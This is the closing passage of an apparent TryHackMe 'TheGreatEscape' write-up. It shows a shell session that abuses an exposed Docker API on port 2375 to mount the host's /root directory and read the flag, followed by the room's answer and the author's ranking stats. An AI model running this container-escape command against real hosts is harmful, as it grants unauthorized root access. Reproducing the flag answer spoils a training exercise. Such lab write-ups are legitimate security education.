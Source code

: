 <br>

```bash
:~/TheGreatEscape# docker -H xx.xxx.xx.xxx:2375 run -it --rm -v /root:/mnt/root alpine:3.9
/ # whoami
root
/ # cd /mnt/root
/mnt/root # ls
flag.txt
/mnt/root # cat flag.txt
Congrats, you found the real flag!

THM{********************1315a32d734}
/mnt/root # 
```

<br>

<p><em>Answer the question below</em></p>

<p>4.1. What is the root flag? (root.txt)<br>
<code>THM{********************1315a32d734}</code></p>

<br>
<br>
<br>

<h1 align="center">Completed</h1>
<p align="center"><img width="1200px" src="https://github.com/user-attachments/assets/7b744977-25b1-4ec1-935a-7dfafa7c3f36"><br>
                  <img width="1200px" src="https://github.com/user-attachments/assets/dddc05cb-18b2-4385-bd32-38c8e5326481"></p>

<br>

<h1 align="center">My TryHackMe Journey</h1>

<div align="center">

| Date              | Streak   | All Time     | All Time     | Monthly     | Monthly    | Points   | Rooms     | Badges    |
| :---------------: | :------: | :----------: | :----------: | :---------: | :--------: | :------  | :-------: | :-------: |
|                   |          |    Global    |    Brazil    |    Global   |   Brazil   |          | Completed |           |
| 2025, August 12   |   463    |     127ᵗʰ    |      5ᵗʰ     |     347ᵗʰ   |     8ᵗʰ    | 120,746  |    912    |    73     |


</div>

<p align="center">Global All Time:   127ᵗʰ<br><img width="250px" src="https://github.com/user-attachments/assets/f796a9bf-c629-461f-98e8-2c8a0790dd51"><br>
                                              <img width="1200px" src="https://github.com/user-attachments/assets/6afa43ee-df23-434c-b451-f2f81b6de7c5"><br><br>
                  Brazil All Time:     5ᵗʰ<br><img width="1200px" src="https://github.com/user-attachments/assets/72bd6cc0-6ec6-4c72-8548-718479992d65"><br>
                  Global monthly:    347ᵗʰ<br><img width="1200px" src="https://github.com/user-attachments/assets/0efaaca3-06b7-4653-b518-410f3a9fb509"><br>
                  Brazil monthly:      8ᵗʰ<br><img width="1200px" src="https://github.com/user-attachments/assets/b2bc2ec8-e9cd-4a03-9887-bd0dedb2397b"><br>

<br>
<h1 align="center">Thanks for Coming!</h1>
<p align="center">Follow me on <a href="https://medium.com/@RosanaFS">Medium</a>, here on <a href="https://github.com/RosanaFSS/TryHackMe">GitHub</a>, and on <a href="https://www.linkedin.com/in/rosanafssantos/">LinkedIN</a>.</p> 
